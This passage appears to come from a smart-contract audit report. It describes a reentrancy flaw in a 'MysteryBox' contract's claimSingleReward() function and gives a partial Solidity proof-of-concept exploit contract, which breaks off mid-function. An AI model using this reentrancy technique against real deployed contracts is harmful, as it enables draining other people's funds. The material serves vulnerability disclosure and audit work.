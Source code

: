1. An attacker’s contract calls `claimSingleReward()` with a valid `_index`.
2. The contract transfers the reward to the attacker's contract.
3. The attacker's contract uses its fallback function to re-enter `claimSingleReward()` and repeatedly claim the reward for the same index before the state is updated.
4. The attacker drains the contract’s funds by exploiting this vulnerability.
## POC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IMysteryBox {
    struct Reward {
        string name;
        uint256 value;
    }

    function boxPrice() external view returns (uint256);
    function buyBox() external payable;
    function openBox() external;
    function getRewards() external view returns (Reward[] memory);
    function claimSingleReward(uint256 _index) external;
}

contract Exploit2 {
    IMysteryBox public mysteryBox;
    uint256 public attackIndex;
    string public lastError;

    constructor(address _mysteryBoxAddress) {
        mysteryBox = IMysteryBox(_mysteryBoxAddress);
    }

    function deposit() external payable {
        // This function allows depositing Ether into the contract
    }

    function buyAndOpenBox() public {
        require(address(this).balance >= mysteryBox.boxPrice(), "Not enough balance");
        mysteryBox.buyBox{value: mysteryBox.boxPrice()}();
        mysteryBox.openBox();
    }

    function findMostValuableReward() public returns (bool) {
        IMysteryBox.Reward[] memory rewards = mysteryBox.getRewards();
        uint256 maxValue = 0;
        bool foundValuable = false;

        for (uint256 i = 0; i < rewards.length; i++) {
            if (rewards[i].value > maxValue) {
                maxValue = rewards[i].value;
                attackIndex = i;
                foundValuable = true;
            }
        }

        return foundValuable;
    }

    function attack() external {
        bool found = findMostValuableReward();
        require(found, "No valuable reward found");

        mysteryBox.claimSingleReward(attackIndex);
```